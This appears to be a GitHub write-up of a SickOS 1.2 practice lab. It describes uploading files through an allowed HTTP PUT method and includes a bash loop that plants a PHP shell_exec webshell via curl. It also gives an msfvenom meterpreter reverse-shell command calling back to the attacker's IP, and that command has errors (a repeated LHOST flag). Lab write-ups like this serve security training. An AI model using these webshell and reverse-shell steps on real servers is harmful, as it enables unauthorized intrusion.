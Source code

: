 I will add here my methods to gain root level privileges on SickOS1.2.
After importing machine to my virtualization platform, I run arp-scan --localnet command to find out the ip address of the machine.
It seems our target's ip address is 192.168.146.174.
![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/4feb2abc-6121-4505-b471-69eab86fd073)
Hence I run a nmap scan to discover open ports and running services.
![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/20678f86-2d61-4a4a-bcb9-053d1b54407e)
 Port 22 and 80 is running on the target. Hence i run a nikto scan to get further data on the web application.
 ![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/bd586bdf-4c6d-472d-91ee-90cfa27e4ca0)

 Output shows us nikto found /test folder that might be interesting and server allows HTTP OPTIONS request that queries the supported methods by the server.
![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/88887a1f-1c32-46fa-a397-563cb1ac0b1b)

 It seems this is an directory indexing folder.
 to make sure about the finding I run burp and sent an HTTP OPTIONS request to target.
 ![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/dd0b1e3e-dda6-46c7-960d-a0d9d0ce9b6d)
 
That's correct, and server respond us with supported functions. HTTP PUT is allowd on the target.
 Let's try with curl to upload a newly created file.

![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/8d628804-48a6-4351-a887-dc82b598e630)

first time curl gave me error after a short google search, I needed to add an Expect header to my command.
And it worked!
![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/d75234d3-09ff-4a46-a972-6661e931167d)
 That means, we can upload our malicious webshells to target. I decided to use pentestmonkey's built int php reverse shell that 
 is located at /usr/share/webshells in Kali. I copied to my Desktop, renamed with reverse.php and edited the file with mousepad.(I added attacker IP address)
 ![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/f6718b22-fdee-44d6-a171-2d7edd519e97)
 then uploaded file with curl. After that started a netcat listener to catch incoming connection request on port 1234.
 ![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/9e954db2-ab2d-4ce9-bd98-d8a6cded0986)

I triggered the file but nothing happened.

![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/52619901-17f4-4f7d-bdd6-28d6346564ce)
 
 Also created another php payload with msfvenom on port 4444 didn't work as weel. Probably, a kind of firewall was  blocking server's reverse connection packet.
 Hence i decided to use php's shell_exec function to test whether running OS commands possible or not.
 i created a run.php file and uploaded to server . and it worked!

 ![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/94727201-06b1-46ad-bab7-f4304cf18a3b)

![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/fc138c58-66d3-43a4-a9a5-7a9f78cb089e)

![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/da50855c-87d1-436e-906f-e674bb44ca9b)

Hence I wrote a simple bash script to gain an interactive shell.(testnc.sh)
 So we can perform a kind a port scan with nc to learn allowed ports.
 #/bin/bash
while : 
do
read -p " ->" command;

 echo "<?php echo shell_exec(\"$command\"); ?>" > run.php
curl http://192.168.146.174/test/ --upload-file run.php -H "Expect: "  
sleep 1
curl 192.168.146.174/test/run.php
done
 with the codes above, i aimed to run an interactive shell commands via my terminal over php shortly.
 ![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/64bed9ff-5d2c-49ec-9c4a-6567f52d9449)

 Hence i moved further and after spending too much time on it i wrote a permitted port detection script(runv1.sh)

![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/802c7fa5-a096-4dd0-bbd8-438d5e1aaee8)


with these codes, uploaded file will run "command" value on the target system. so target server will send me nc packets(-z) and if the target permits a spesific port, we'll learn it.
let's run it and see the result. After execution:
![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/594f35d6-4ce2-4d30-8ff5-ef34cefcfc3e)


result showed me, I can use port 443 and port 8080 to get reverse shell.
to use metasploit framework, i created a php payload with msfvenom.
#msfvenom -p /php/meterpreter/reverse_tcp LHOST=192.168.146.164 LHOST=443 -f raw -o meter.php
and uploaded with curl and started a multi handler listener.
![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/9031c6dc-d54e-4357-8fbf-6fb589d5a5f3)


![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/10718ea5-bb0d-46fc-9cd1-dca6771b5cff)

![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/74d344f2-da7c-459f-93cf-6b45100d48a1)
 now i'll run meter.php file via browser.
 
 ![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/d8e1ab2d-772b-4a37-bd89-90a80f714426)

then we've the session but we need to escalate our privileges.

![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/86a15ab1-e33b-4353-88ba-9b4666faebf0)


